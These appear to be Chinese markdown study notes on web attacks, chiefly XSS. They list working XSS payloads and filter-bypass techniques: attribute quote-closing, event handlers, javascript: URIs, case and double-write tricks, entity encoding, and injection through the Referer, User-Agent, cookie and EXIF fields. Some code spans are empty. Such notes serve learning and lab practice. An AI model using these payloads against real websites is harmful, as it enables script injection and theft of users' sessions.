


常见攻击方式：

1注入攻击

2上传漏洞攻击

3跨站攻击（https://book.2cto.com/201506/52201.html）
跨站攻击最常见的方式是通过窃取cookie或欺骗打开木马网页等，取得重要的资料

4数据库入侵

 


闭合引号   ```value="">"       value="">onmouseover="alert(1)"```


onmouseover="  //当鼠标进入div元素时触发

onmouseenter=alert() //当鼠标进入div元素时触发,在子元素上也会触发(p 和 span)

onclick=alert() //鼠标点击时就会触发

onchange=alert() //在域的内容改变时发生

oninput=alert() //在用户输入时触发

onmouseover=alert()//鼠标移动到就会触发


```<iframe src=javascript:alert('xss')></iframe>```


```<a href=javascript:alert(1)>test</a>```


大小写转换绕过 ```<a Href="javascript:alert('1')">try</a>```

```<a Href="java&#115;cript:alert('1')">try</a>```


php str_replace()   双写绕过  ```<a hhrefref=javasscriptcript:alert(1)>test</a>```

Unicode编码转换  ```javasc&#114;ipt:alert('1')```  (不可转换标签属性)

```javascript:alert(1)/*http://www*/```     加上注释是为了不影响执行

```javascript:alert(1)//http://www*/```     加上注释是为了不影响执行

```keyword=<script>alert(1)</script>&t_sort="onmouseover="alert(1)"type="txt"```

插入 type="txt" 会忽略后面的type="hidden"


$str11=$_SERVER['HTTP_REFERER']
在php中，可以使用$_SERVER[‘HTTP_REFERER’]来获取HTTP_REFERER信息

引导用户代理到当前页的前一页的地址（如果存在）。由 user agent 设置决定。

并不是所有的用户代理都会设置该项，有的还提供了修改HTTP_REFERER 的功能。

简言之，该值并不可信,可用hackbar修改，如图




$str11=$_SERVER['HTTP_USER_AGENT']
$str11=$_COOKIE["user"]

[图虫EXIF查看器alpha版](https://exif.tuchong.com/)   查看exif信息的网站
修改图片的exif信息，上传到相应网站，然后达到执行XSS的效果

``````

ng-include  在 angular.js 包含外部文件

onerror 事件： 会在文档或图像加载过程中发生错误时被触发。

在装载文档或图像的过程中如果发生了错误，就会调用该事件句柄。

支持该事件的 HTML 标签：```, <object>, <style>```

支持该事件的 JavaScript 对象：window, image

空格绕过 ``````




